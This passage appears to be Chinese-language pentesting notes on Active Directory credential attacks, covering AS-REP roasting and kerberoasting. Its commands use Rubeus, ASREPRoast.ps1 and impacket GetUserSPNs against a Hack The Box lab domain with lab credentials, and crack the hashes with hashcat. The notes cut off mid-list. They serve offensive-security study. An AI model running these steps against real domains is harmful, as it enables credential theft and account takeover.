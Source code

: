 ```
二、域内打法：
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast
Rubeus 梭哈，自动化



https://github.com/HarmJ0y/ASREPRoast

ASREPRoast.ps1 梭哈，自动化

Import-Module .\ASREPRoast.ps1
Invoke-ASREPRoast 

```

## 4、kerberoasting

适用场景：**（有一个普通权限就可以尝试）**

1、拥有一个合法用户密码；2、域内有注册于域用户下的SPN

利用方法：

1、获取滥用的SPN：

RiskySPN：域内主机，该工具可自动过滤出可用的SPN
GetUSerSPNS：域内主机，该工具会列出所有注册于用户名下的SPN
powerview.ps1：域内主机，该工具会列出所有注册于用户名下的SPN

2、请求服务票据：

impacket GetuserSPNs.py：域外主机，使用账号密码，该工具可以跳过第一步，输出内容为hashcat可爆破内容。

Rubeus：域内主机，该工具可以跳过第一步，输出内容为hashcat或者john可爆破内容.
mimikatz：域内主机，挨个请求，保存在内存中


3、使用上述工具输出的内容破解，或者使用mimikatz、empire导出票据破解

4、破解工具
kerberoast：可用于破解mimikatz导出的.kirbi格式的票据爆破
tgscrack：.kirbi格式转换后破解
hashcat：破解

操作

```
域外主机，有账密打域内：

获取滥用的SPN：
python GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18

获取ST，保存为hashcat能爆破的格式：
python /home/kali/Desktop/HTB/impacket/examples/GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request -outputfile hash.txt

爆破：
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt --force

域内主机：

1、
.\Rubeus.exe kerberoast /format:hashcat /outfile:hashes.asreproast


2、
```